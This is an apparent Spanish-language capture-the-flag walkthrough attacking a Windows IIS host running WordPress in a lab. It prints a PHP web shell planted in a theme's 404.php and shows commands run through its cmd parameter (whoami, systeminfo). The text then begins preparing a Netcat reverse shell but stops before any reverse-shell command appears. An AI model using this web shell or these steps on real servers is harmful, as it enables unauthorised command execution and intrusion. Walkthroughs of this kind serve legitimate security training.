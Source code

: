 ```php

function executeCommand(string $command) {
    if (class_exists('ReflectionFunction')) {
       $function = new ReflectionFunction('system');
       $function->invoke($command);
    } elseif (function_exists('call_user_func_array')) {
       call_user_func_array('system', array($command));
    } elseif (function_exists('call_user_func')) {
       call_user_func('system', $command);
    } else if(function_exists('passthru')) {
       ob_start();
       passthru($command , $return_var);
       $output = ob_get_contents();
       ob_end_clean();
    } else if(function_exists('system')){
       system($command);
    }
}
```

Lo primero que haremos será probar si el script en PHP que acabamos de subir funciona. Para ello:

```http
http://10.10.10.29/wordpress/wp-content/themes/twentynineteen/404.php?cmd=whoami
```

```plaintext
nt authority\iusr
```

Como vemos, nos dice que somos el usuario iusr, el usuario que corre el servidor Windows IIS.

<br>

### Reverse Shell
Para trabajar más cómodos, intentaremos crear una reverse shell. Para ello, lo primero que haremos será descargarnos el binario de [Netcat](http://netcat.sourceforge.net/) para Windows, pero antes comprobaremos la version de Windows bajo la que corre el servidor web. Para ello ejecutaremos el comando systeminfo:

```http
http://.../404.php?cmd=systeminfo
```

```plaintext
Host Name: SHIELD


OS Name: Microsoft Windows Server 2016 Standard


OS Version: 10.0.14393 N/A Build 14393


System Type: x64-based PC
```
